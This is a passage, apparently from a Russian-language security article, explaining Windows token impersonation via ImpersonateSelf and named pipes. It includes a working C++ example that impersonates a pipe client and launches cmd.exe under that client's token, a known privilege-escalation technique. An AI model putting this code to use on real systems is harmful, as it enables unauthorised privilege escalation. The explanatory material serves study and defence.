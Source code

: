 ## Без установления соединения

Для заимс­тво­вания прав под­клю­чен­ного поль­зовате­ля может слу­жить фун­кция `ImpersonateLoggedOnUser()`, которую мы уже рас­смот­рели, либо `ImpersonateSelf()`:

```
BOOL ImpersonateSelf(
[in] SECURITY_IMPERSONATION_LEVEL ImpersonationLevel
);
```

Она про­дуб­лиру­ет токен нашего про­цес­са, соз­даст новый с ука­зан­ным типом имперсо­нации и свя­жет его с вызыва­ющим потоком.

## Именованные каналы

Су­щес­тву­ет воз­можность имперсо­нации кли­ента пай­па:

```
BOOL ImpersonateNamedPipeClient(
[in] HANDLE hNamedPipe
);
```

Но обра­ти вни­мание, что для вызова этой фун­кции пот­ребу­ется при­виле­гия `SeImpersonatePrivilege`. Так­же мы получим токен с уров­нем имперсо­нации мень­шим, чем `SecurityImpersonation`, нап­ример `SecurityIdentification` или `SecurityAnonymous`, поэто­му необ­ходимо будет выз­вать `DuplicateTokenEx()`.

```
#include <Windows.h>
#include <iostream>

int main() {
	LPCWSTR pipeName = L"\\\\.\\pipe\\pipename";
	LPVOID pipeBuffer = NULL;
	HANDLE serverPipe;
	DWORD readBytes = 0;
	DWORD readBuffer = 0;
	int err = 0;
	BOOL isPipeConnected;
	BOOL isPipeOpen;
	DWORD bytesWritten = 0;
	
	std::wcout << "Creating named pipe " << pipeName << std::endl;
	serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);
	
	isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
	if (isPipeConnected) {
		std::wcout << "Incoming connection to " << pipeName << std::endl;
	}
	std::wcout << "Impersonating the client..." << std::endl;
	ImpersonateNamedPipeClient(serverPipe);
	err = GetLastError();
	
	STARTUPINFO si = {};
	wchar_t command[] = L"C:\\Windows\\system32\\cmd.exe";
	PROCESS_INFORMATION pi = {};
	HANDLE threadToken = GetCurrentThreadToken();
	CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
	
	return 0;
}
```
